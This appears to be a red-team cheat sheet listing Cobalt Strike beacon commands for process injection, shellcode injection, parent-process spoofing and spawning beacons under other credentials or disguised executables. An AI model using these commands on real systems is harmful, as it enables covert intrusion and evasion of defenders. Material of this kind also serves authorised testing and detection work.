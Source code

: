 # 06 - Process Manipulation

Search Tag(s): #cobalt-strike #command-and-control

## 6.1 - Inject Process

* Inject to spawn beacon session

`beacon> inject <pid> <architecture> <listener>`

* Run powershell through another process

`beacon> psinject <pid> <arch> <cmdlet> [args]`

- Inject DLL file in another process

`beacon> dllload <pid> c:\path\to\remove\shell.dll`

## 6.2 - Inject Shellcode

* Inject shellcode

`beacon> shinject <pid> /path/to/shellcode.bin`

- Spawn a new process and inject shellcode

`beacon> shspawn x64`

* Spawn shellcode and tunnel

`beacon> spunnel <pid> /path/to/shellcode.bin`

## 6.3 - Spoof Process

* Spoof a parent process that is ready to spawn a new child process

`beacon> ppid <ppid>`

## 6.4 - Spawn Beacon Session

- Spawn new beacon process with under different user credentials as provided

```
beacon> spawnas <domain_name>\<username> <password>
```

- Specify a path of the new executable program to inject beacon shellcode other than specified in the malleable c2 profile. By default it injects `rundll32.exe` when executing `spawn`.

```
beacon> spawnto <arch> <path> <args>

beacon> spawnto x86 c:\program files (x86)\internet explorer\iexplore.exe

beacon> spawnto x86 C:\Program Files (x86)\Common Files\Java\Java Update\jucheck.exe
```

- Spawn new beacon process

```
beacon> spawn <arch> <listener>
```

---
## References

* [Cobalt Strike Spawn Tunnel](https://rastamouse.me/cobalt-strike-spawn-tunnel/)